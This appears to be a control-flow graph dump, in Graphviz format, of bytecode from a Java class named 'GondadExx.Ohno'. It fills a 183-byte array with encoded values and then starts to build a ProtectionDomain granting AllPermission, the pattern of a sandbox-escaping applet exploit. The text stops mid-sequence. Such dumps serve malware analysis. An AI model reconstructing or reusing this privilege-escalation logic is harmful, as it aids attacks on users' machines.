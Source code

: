 digraph "" {
    "r0 := @this: GondadExx.Ohno"
    "push 183"
    "r0 := @this: GondadExx.Ohno"->"push 183";
    "newarray"
    "push 183"->"newarray";
    "store.r r6"
    "newarray"->"store.r r6";
    "load.r r6"
    "store.r r6"->"load.r r6";
    "push 0"
    "load.r r6"->"push 0";
    "push -42"
    "push 0"->"push -42";
    "arraywrite.b"
    "push -42"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 1"
    "load.r r6"->"push 1";
    "push -105"
    "push 1"->"push -105";
    "push -105"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 2"
    "load.r r6"->"push 2";
    "push 122"
    "push 2"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 3"
    "load.r r6"->"push 3";
    "push 127"
    "push 3"->"push 127";
    "push 127"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 4"
    "load.r r6"->"push 4";
    "push 15"
    "push 4"->"push 15";
    "push 15"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 5"
    "load.r r6"->"push 5";
    "push 8"
    "push 5"->"push 8";
    "push 8"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 6"
    "load.r r6"->"push 6";
    "push 6"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 7"
    "load.r r6"->"push 7";
    "push 105"
    "push 7"->"push 105";
    "push 105"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 8";
    "push 33"
    "push 8"->"push 33";
    "push 33"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 9"
    "load.r r6"->"push 9";
    "push 54"
    "push 9"->"push 54";
    "push 54"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 10"
    "load.r r6"->"push 10";
    "push 16"
    "push 10"->"push 16";
    "push 16"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 11"
    "load.r r6"->"push 11";
    "push 27"
    "push 11"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 12"
    "load.r r6"->"push 12";
    "push 12"->"push 12";
    "push 12"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 13"
    "load.r r6"->"push 13";
    "push 13"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 14"
    "load.r r6"->"push 14";
    "push 84"
    "push 14"->"push 84";
    "push 84"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 15";
    "push 22"
    "push 15"->"push 22";
    "push 22"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 16";
    "push 16"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 17"
    "load.r r6"->"push 17";
    "push 20"
    "push 17"->"push 20";
    "push 20"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 18"
    "load.r r6"->"push 18";
    "push 29"
    "push 18"->"push 29";
    "push 29"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 19"
    "load.r r6"->"push 19";
    "push 19"->"push 84";
    "push 84"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 20";
    "push 53"
    "push 20"->"push 53";
    "push 53"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 21"
    "load.r r6"->"push 21";
    "push 24"
    "push 21"->"push 24";
    "push 24"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 22";
    "push 22"->"push 16";
    "push 16"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 23"
    "load.r r6"->"push 23";
    "push 31"
    "push 23"->"push 31";
    "push 31"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 24";
    "push 25"
    "push 24"->"push 25";
    "push 25"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 25";
    "push 25"->"push 14";
    "push 14"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 26"
    "load.r r6"->"push 26";
    "push 65"
    "push 26"->"push 65";
    "push 65"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 27";
    "push -22"
    "push 27"->"push -22";
    "push -22"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 28"
    "load.r r6"->"push 28";
    "push -76"
    "push 28"->"push -76";
    "push -76"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 29";
    "push 34"
    "push 29"->"push 34";
    "push 34"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 30"
    "load.r r6"->"push 30";
    "push -27"
    "push 30"->"push -27";
    "push -27"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 31";
    "push 106"
    "push 31"->"push 106";
    "push 106"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 32"
    "load.r r6"->"push 32";
    "push 32"->"push 9";
    "push 9"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 33";
    "push 83"
    "push 33"->"push 83";
    "push 83"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 34";
    "push 34"->"push 22";
    "push 22"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 35"
    "load.r r6"->"push 35";
    "push 120"
    "push 35"->"push 120";
    "push 120"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 36"
    "load.r r6"->"push 36";
    "push 36"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 37"
    "load.r r6"->"push 37";
    "push 37"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 38"
    "load.r r6"->"push 38";
    "push 38"->"push 2";
    "push 2"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 39"
    "load.r r6"->"push 39";
    "push 39"->"push 10";
    "push 10"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 40"
    "load.r r6"->"push 40";
    "push 40"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 41"
    "load.r r6"->"push 41";
    "push 41"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 42"
    "load.r r6"->"push 42";
    "push 42"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 43"
    "load.r r6"->"push 43";
    "push 43"->"push 120";
    "push 120"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 44"
    "load.r r6"->"push 44";
    "push 44"->"push 15";
    "push 15"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 45"
    "load.r r6"->"push 45";
    "push 45"->"push 8";
    "push 8"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 46"
    "load.r r6"->"push 46";
    "push 46"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 47"
    "load.r r6"->"push 47";
    "push 107"
    "push 47"->"push 107";
    "push 107"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 48"
    "load.r r6"->"push 48";
    "push 48"->"push 33";
    "push 33"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 49"
    "load.r r6"->"push 49";
    "push 49"->"push 54";
    "push 54"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 50"
    "load.r r6"->"push 50";
    "push 61"
    "push 50"->"push 61";
    "push 61"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 51"
    "load.r r6"->"push 51";
    "push 51"->"push 21";
    "push 21"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 52"
    "load.r r6"->"push 52";
    "push 52"->"push 20";
    "push 20"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 53";
    "push 53"->"push 30";
    "push 30"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 54";
    "push 54"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 55"
    "load.r r6"->"push 55";
    "push 55"->"push 30";
    "push 30"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 56"
    "load.r r6"->"push 56";
    "push 63"
    "push 56"->"push 63";
    "push 63"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 57"
    "load.r r6"->"push 57";
    "push 57"->"push 2";
    "push 2"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 58"
    "load.r r6"->"push 58";
    "push 58"->"push 2";
    "push 2"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 59"
    "load.r r6"->"push 59";
    "push 59"->"push 84";
    "push 84"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 60"
    "load.r r6"->"push 60";
    "push 60"->"push 61";
    "push 61"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 61";
    "push 61"->"push 21";
    "push 21"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 62"
    "load.r r6"->"push 62";
    "push 62"->"push 20";
    "push 20"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 63";
    "push 63"->"push 30";
    "push 30"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 64"
    "load.r r6"->"push 64";
    "push 64"->"push 65";
    "push 65"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 65";
    "push -124"
    "push 65"->"push -124";
    "push -124"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 66"
    "load.r r6"->"push 66";
    "push 86"
    "push 66"->"push 86";
    "push 86"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 67"
    "load.r r6"->"push 67";
    "push -18"
    "push 67"->"push -18";
    "push -18"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 68"
    "load.r r6"->"push 68";
    "push 68"->"push 107";
    "push 107"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 69"
    "load.r r6"->"push 69";
    "push -14"
    "push 69"->"push -14";
    "push -14"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 70"
    "load.r r6"->"push 70";
    "push -52"
    "push 70"->"push -52";
    "push -52"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 71"
    "load.r r6"->"push 71";
    "push -97"
    "push 71"->"push -97";
    "push -97"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 72"
    "load.r r6"->"push 72";
    "push -123"
    "push 72"->"push -123";
    "push -123"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 73"
    "load.r r6"->"push 73";
    "push 73"->"push 120";
    "push 120"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 74"
    "load.r r6"->"push 74";
    "push 74"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 75"
    "load.r r6"->"push 75";
    "push 75"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 76"
    "load.r r6"->"push 76";
    "push 76"->"push 2";
    "push 2"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 77"
    "load.r r6"->"push 77";
    "push 77"->"push 10";
    "push 10"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 78"
    "load.r r6"->"push 78";
    "push 78"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 79"
    "load.r r6"->"push 79";
    "push 79"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 80"
    "load.r r6"->"push 80";
    "push 80"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 81"
    "load.r r6"->"push 81";
    "push 123"
    "push 81"->"push 123";
    "push 123"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 82"
    "load.r r6"->"push 82";
    "push 82"->"push 10";
    "push 10"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 83";
    "push 83"->"push 9";
    "push 9"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 84";
    "push 84"->"push 8";
    "push 8"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 85"
    "load.r r6"->"push 85";
    "push 85"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 86";
    "push 86"->"push 74";
    "push 74"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 87"
    "load.r r6"->"push 87";
    "push 87"->"push 16";
    "push 16"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 88"
    "load.r r6"->"push 88";
    "push 88"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 89"
    "load.r r6"->"push 89";
    "push 89"->"push 12";
    "push 12"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 90"
    "load.r r6"->"push 90";
    "push 90"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 91"
    "load.r r6"->"push 91";
    "push 91"->"push 84";
    "push 84"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 92"
    "load.r r6"->"push 92";
    "push 92"->"push 15";
    "push 15"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 93"
    "load.r r6"->"push 93";
    "push 93"->"push 14";
    "push 14"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 94"
    "load.r r6"->"push 94";
    "push 94"->"push 19";
    "push 19"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 95"
    "load.r r6"->"push 95";
    "push 95"->"push 22";
    "push 22"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 96"
    "load.r r6"->"push 96";
    "push 96"->"push 84";
    "push 84"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 97"
    "load.r r6"->"push 97";
    "push 97"->"push 25";
    "push 25"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 98"
    "load.r r6"->"push 98";
    "push 98"->"push 21";
    "push 21"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 99"
    "load.r r6"->"push 99";
    "push 99"->"push 20";
    "push 20"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 100"
    "load.r r6"->"push 100";
    "push 100"->"push 25";
    "push 25"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 101"
    "load.r r6"->"push 101";
    "push 101"->"push 15";
    "push 15"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 102"
    "load.r r6"->"push 102";
    "push 102"->"push 8";
    "push 8"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 103"
    "load.r r6"->"push 103";
    "push 103"->"push 8";
    "push 8"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 104"
    "load.r r6"->"push 104";
    "push 104"->"push 31";
    "push 31"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 105";
    "push 105"->"push 20";
    "push 20"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 106";
    "push 106"->"push 14";
    "push 14"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 107";
    "push 107"->"push 84";
    "push 84"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 108"
    "load.r r6"->"push 108";
    "push 108"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 109"
    "load.r r6"->"push 109";
    "push 109"->"push 14";
    "push 14"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 110"
    "load.r r6"->"push 110";
    "push 110"->"push 21";
    "push 21"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 111"
    "load.r r6"->"push 111";
    "push 111"->"push 23";
    "push 23"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 112"
    "load.r r6"->"push 112";
    "push 112"->"push 19";
    "push 19"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 113"
    "load.r r6"->"push 113";
    "push 113"->"push 25";
    "push 25"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 114"
    "load.r r6"->"push 114";
    "push 114"->"push 84";
    "push 84"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 115"
    "load.r r6"->"push 115";
    "push 115"->"push 59";
    "push 59"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 116"
    "load.r r6"->"push 116";
    "push 116"->"push 14";
    "push 14"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 117"
    "load.r r6"->"push 117";
    "push 117"->"push 21";
    "push 21"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 118"
    "load.r r6"->"push 118";
    "push 118"->"push 23";
    "push 23"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 119"
    "load.r r6"->"push 119";
    "push 119"->"push 19";
    "push 19"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 120";
    "push 120"->"push 25";
    "push 25"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 121"
    "load.r r6"->"push 121";
    "push 121"->"push 40";
    "push 40"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 122";
    "push 122"->"push 31";
    "push 31"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 123";
    "push 123"->"push 28";
    "push 28"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 124"
    "load.r r6"->"push 124";
    "push 124"->"push 31";
    "push 31"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 125"
    "load.r r6"->"push 125";
    "push 125"->"push 8";
    "push 8"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 126"
    "load.r r6"->"push 126";
    "push 126"->"push 31";
    "push 31"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 127";
    "push 127"->"push 20";
    "push 20"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 128"
    "load.r r6"->"push 128";
    "push 128"->"push 25";
    "push 25"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 129"
    "load.r r6"->"push 129";
    "push 129"->"push 31";
    "push 31"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 130"
    "load.r r6"->"push 130";
    "push 130"->"push 59";
    "push 59"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 131"
    "load.r r6"->"push 131";
    "push 131"->"push 8";
    "push 8"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 132"
    "load.r r6"->"push 132";
    "push 132"->"push 8";
    "push 8"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 133"
    "load.r r6"->"push 133";
    "push 133"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 134"
    "load.r r6"->"push 134";
    "push 134"->"push 3";
    "push 3"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 135"
    "load.r r6"->"push 135";
    "push -45"
    "push 135"->"push -45";
    "push -45"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 136"
    "load.r r6"->"push 136";
    "push -88"
    "push 136"->"push -88";
    "push -88"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 137"
    "load.r r6"->"push 137";
    "push -92"
    "push 137"->"push -92";
    "push -92"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 138"
    "load.r r6"->"push 138";
    "push -37"
    "push 138"->"push -37";
    "push -37"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 139"
    "load.r r6"->"push 139";
    "push -60"
    "push 139"->"push -60";
    "push -60"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 140"
    "load.r r6"->"push 140";
    "push 140"->"push 31";
    "push 31"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 141"
    "load.r r6"->"push 141";
    "push 141"->"push 26";
    "push 26"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 142"
    "load.r r6"->"push 142";
    "push 142"->"push 118";
    "push 118"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 143"
    "load.r r6"->"push 143";
    "push 143"->"push 120";
    "push 120"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 144"
    "load.r r6"->"push 144";
    "push 144"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 145"
    "load.r r6"->"push 145";
    "push 145"->"push 123";
    "push 123"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 146"
    "load.r r6"->"push 146";
    "push 146"->"push 33";
    "push 33"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 147"
    "load.r r6"->"push 147";
    "push 147"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 148"
    "load.r r6"->"push 148";
    "push 148"->"push 127";
    "push 127"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 149"
    "load.r r6"->"push 149";
    "push 149"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 150"
    "load.r r6"->"push 150";
    "push 150"->"push 8";
    "push 8"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 151"
    "load.r r6"->"push 151";
    "push 151"->"push 8";
    "push 8"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 152"
    "load.r r6"->"push 152";
    "push 152"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 153"
    "load.r r6"->"push 153";
    "push 153"->"push 3";
    "push 3"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 154"
    "load.r r6"->"push 154";
    "push 154"->"push 14";
    "push 14"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 155"
    "load.r r6"->"push 155";
    "push 155"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 156"
    "load.r r6"->"push 156";
    "push 156"->"push 105";
    "push 105"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 157"
    "load.r r6"->"push 157";
    "push 157"->"push 33";
    "push 33"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 158"
    "load.r r6"->"push 158";
    "push 158"->"push 54";
    "push 54"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 159"
    "load.r r6"->"push 159";
    "push 159"->"push 16";
    "push 16"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 160"
    "load.r r6"->"push 160";
    "push 160"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 161"
    "load.r r6"->"push 161";
    "push 161"->"push 12";
    "push 12"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 162"
    "load.r r6"->"push 162";
    "push 162"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 163"
    "load.r r6"->"push 163";
    "push 163"->"push 85";
    "push 85"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 164"
    "load.r r6"->"push 164";
    "push 164"->"push 22";
    "push 22"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 165"
    "load.r r6"->"push 165";
    "push 165"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 166"
    "load.r r6"->"push 166";
    "push 166"->"push 20";
    "push 20"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 167"
    "load.r r6"->"push 167";
    "push 167"->"push 29";
    "push 29"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 168"
    "load.r r6"->"push 168";
    "push 168"->"push 85";
    "push 85"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 169"
    "load.r r6"->"push 169";
    "push 169"->"push 53";
    "push 53"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 170"
    "load.r r6"->"push 170";
    "push 170"->"push 24";
    "push 24"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 171"
    "load.r r6"->"push 171";
    "push 171"->"push 16";
    "push 16"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 172"
    "load.r r6"->"push 172";
    "push 172"->"push 31";
    "push 31"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 173"
    "load.r r6"->"push 173";
    "push 173"->"push 25";
    "push 25"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 174"
    "load.r r6"->"push 174";
    "push 174"->"push 14";
    "push 14"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 175"
    "load.r r6"->"push 175";
    "push 175"->"push 65";
    "push 65"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 176"
    "load.r r6"->"push 176";
    "push 176"->"push 2";
    "push 2"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 177"
    "load.r r6"->"push 177";
    "push 177"->"push 10";
    "push 10"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 178"
    "load.r r6"->"push 178";
    "push 178"->"push 11";
    "push 11"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 179"
    "load.r r6"->"push 179";
    "push 179"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 180"
    "load.r r6"->"push 180";
    "push 180"->"push 4";
    "push 4"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 181"
    "load.r r6"->"push 181";
    "push 181"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 182"
    "load.r r6"->"push 182";
    "push 182"->"push 121";
    "push 121"->"arraywrite.b";
    "new java.security.Permissions"
    "arraywrite.b"->"new java.security.Permissions";
    "store.r r7"
    "new java.security.Permissions"->"store.r r7";
    "load.r r7"
    "store.r r7"->"load.r r7";
    "specialinvoke <java.security.Permissions: void <init>()>"
    "load.r r7"->"specialinvoke <java.security.Permissions: void <init>()>";
    "specialinvoke <java.security.Permissions: void <init>()>"->"load.r r7";
    "new java.security.AllPermission"
    "load.r r7"->"new java.security.AllPermission";
    "dup1.r"
    "new java.security.AllPermission"->"dup1.r";
    "specialinvoke <java.security.AllPermission: void <init>()>"
    "dup1.r"->"specialinvoke <java.security.AllPermission: void <init>()>";
    "virtualinvoke <java.security.Permissions: void add(java.security.Permission)>"
    "specialinvoke <java.security.AllPermission: void <init>()>"->"virtualinvoke <java.security.Permissions: void add(java.security.Permission)>";
    "new java.security.ProtectionDomain"
    "virtualinvoke <java.security.Permissions: void add(java.security.Permission)>"->"new java.security.ProtectionDomain";
    "store.r $r13"
    "new java.security.ProtectionDomain"->"store.r $r13";
    "load.r $r13"
    "store.r $r13"->"load.r $r13";
    "new java.security.CodeSource"
    "load.r $r13"->"new java.security.CodeSource";
